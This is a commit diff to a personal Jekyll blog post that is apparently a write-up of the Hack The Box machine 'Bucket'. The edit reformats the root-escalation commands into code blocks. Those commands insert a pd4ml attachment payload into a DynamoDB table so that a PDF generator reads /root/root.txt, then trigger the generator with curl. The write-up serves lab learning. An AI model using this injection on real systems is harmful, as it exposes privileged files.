

Before and after one commit to gregory-graindorge/gregory-graindorge.github.io, a Jekyll site: the page built from _posts/2021-04-25-bucket.md, in a window 1280 px wide and 1400 px high, scrolled down 18872 px. Shown: the whole window at 91% size, without its empty margins (0-1038 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2021-04-25-bucket.md

```diff
--- a/_posts/2021-04-25-bucket.md
+++ b/_posts/2021-04-25-bucket.md
@@ -497,13 +497,9 @@
 uid=1000(roy) gid=1000(roy) groups=1000(roy),1001(sysadm)
 {% endhighlight %}
 
-{% highlight sh %}
-id
-{% endhighlight %}
-
 ## Root
 
-Before running any automated script, I like to look make a bit of manual enumerations.
+Before running any automated script, I like to look make a bit of manual enumerations first.
 Executing `netstat` helps us to understand what's going on here.
 
 {% highlight sh %}
@@ -673,13 +669,14 @@
 3. Execute curl to trigger the scirpt inside the `backup-app`.
 
 Here is my script:
-
-> python2.7 /usr/bin/aws dynamodb create-table 	--table-name alerts --attribute-definitions AttributeName=title,AttributeType=S --key-schema AttributeName=title,KeyType=HASH --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5 --endpoint-url=http://s3.bucket.htb --region us-east-1 --no-sign-request
-python2.7 /usr/bin/aws dynamodb put-item 		--table-name alerts --item '{"title": {"S": "Ransomware"}, "data": {"S": "teststringalue"}}' --endpoint-url=http://s3.bucket.htb --region us-east-1 --no-sign-request
+{% highlight sh %}
+python2.7 /usr/bin/aws dynamodb create-table 	--table-name alerts --attribute-definitions AttributeName=title,AttributeType=S --key-schema AttributeName=title,KeyType=HASH --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5 --endpoint-url=http://s3.bucket.htb --region us-east-1 --no-sign-request
+python2.7 /usr/bin/aws dynamodb put-item --table-name alerts --item '{"title": {"S": "Ransomware"}, "data": {"S": "teststringalue"}}' --endpoint-url=http://s3.bucket.htb --region us-east-1 --no-sign-request
 python2.7 /usr/bin/aws dynamodb list-tables --endpoint-url http://s3.bucket.htb --region us-east-1 --no-sign-request
 python2.7 /usr/bin/aws dynamodb scan --table-name users --endpoint-url http://s3.bucket.htb --region us-east-1 --no-sign-request --output text --query "Items[*]"
 python2.7 /usr/bin/aws dynamodb scan --table-name alerts --endpoint-url http://s3.bucket.htb --region us-east-1 --no-sign-request --output text --query "Items[*]"
 curl http://127.0.0.1:8000/index.php/ -X POST -d 'action=get_alerts' -v
+{% endhighlight %}
 
 I could've used <cite><strong>Python</strong></cite> to do that but I feel more comfortable with <cite><strong>Bash</strong></cite>. Also you can notice that I added a few commands just to list and dump tables. These steps are not necessary but I wanted to be sure that every worked fine and it's always nice to have a bit of feedback on what we did.
 
@@ -878,10 +875,11 @@
 All we need to do is replace the `ThanksForReading` value inside our script by the line above.
 
 So, here is my final script.
-
-> python2.7 /usr/bin/aws dynamodb create-table 	--table-name alerts --attribute-definitions AttributeName=title,AttributeType=S --key-schema AttributeName=title,KeyType=HASH --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5 --endpoint-url=http://s3.bucket.htb --region us-east-1 --no-sign-request
+{% highlight sh %}
+python2.7 /usr/bin/aws dynamodb create-table 	--table-name alerts --attribute-definitions AttributeName=title,AttributeType=S --key-schema AttributeName=title,KeyType=HASH --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5 --endpoint-url=http://s3.bucket.htb --region us-east-1 --no-sign-request
 python2.7 /usr/bin/aws dynamodb put-item 		--table-name alerts --item '{"title": {"S": "Ransomware"}, "data": {"S": "<pd4ml:attachment description=\"attached.txt\" icon=\"PushPin\">file:///root/root.txt</pd4ml:attachment>"}}' --endpoint-url=http://s3.bucket.htb --region us-east-1 --no-sign-request
 curl http://127.0.0.1:8000/index.php/ -X POST -d 'action=get_alerts' -v
+{% endhighlight %}
 
 Don't forget to use `watch` before running the script.
 
```
Also changed, not shown: other parts of _posts/2021-04-25-bucket.md (+1 -1 lines).
